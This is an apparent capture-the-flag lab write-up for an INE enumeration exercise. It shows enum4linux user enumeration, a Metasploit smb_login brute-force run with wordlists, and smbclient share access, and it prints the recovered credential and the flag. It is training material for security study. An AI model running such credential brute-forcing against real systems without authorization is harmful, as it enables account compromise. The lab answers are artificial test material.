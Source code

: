 # SMB Login Brute Force with Metasploit

## Challenge Title
Brute Force SMB Credentials and Extract a Flag

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Use enumeration and brute-force attacks to obtain SMB credentials. Then, access the authenticated share to extract a hidden flag.

---

## Tools Used

- `enum4linux` – for user enumeration
- `Metasploit` – for brute force with SMB login module
- `smbclient` – for accessing SMB shares

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Enumerate Users with `enum4linux`

We start by using `enum4linux` to enumerate valid users on the SMB service.

```bash
enum4linux -a target.ine.local
```
![Step 1](./7.png)

The tool successfully identified local users:
- `josh`
- `bob`
- `nancy`
- `alice`

![Step 1](./8.png)

### 🔹 Step : Launch Metasploit and Load SMB Login Module

```bash
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS target.ine.local
```
![Step 2](./1.png)

### 🔹 Step 3: Create a User Wordlist

Created `users.txt` with common usernames:
```bash
josh
bob
nancy
alice
```
![Step 3](./2.png)

### 🔹 Step 4: Set Wordlists in Metasploit
```bash
set USER_FILE users.txt
set PASS_FILE /root/Desktop/wordlists/unix_passwords.txt
run
```
![Step 4](./3.png)

### 🔹 Step 5: Valid Credentials Found
```yaml
josh : purple
```
![Step 5](./4.png)

### 🔹 Step 6: Access SMB Share Using `smbclient`
```bash
smbclient //target.ine.local/josh -U josh
```
Password: purple
```bash
ls
get flag2.txt
```
![Step 6](./5.png)

### 🔹 Step 7: View the Retrieved Flag
```bash
cat flag2.txt
```
Flag:
```wasm
FLAG2{a744a6f69c0747398f2648e10f32b8d4}
```
Also contains a hint for the next step:
Psst! I heard there is an FTP service running. Find it and check the banner.
![Step 7](./6.png)

## Conclusion
This challenge demonstrates how password spraying and brute-force attacks using Metasploit can help identify weak credentials on SMB services — which in real environments can lead to full network compromise.

## Files Included
- `users.txt`: Wordlist used for usernames
- `unix_passwords.txt`: Wordlist used for passwords
- Screenshots: 1.png → 8.png (steps of the challenge)
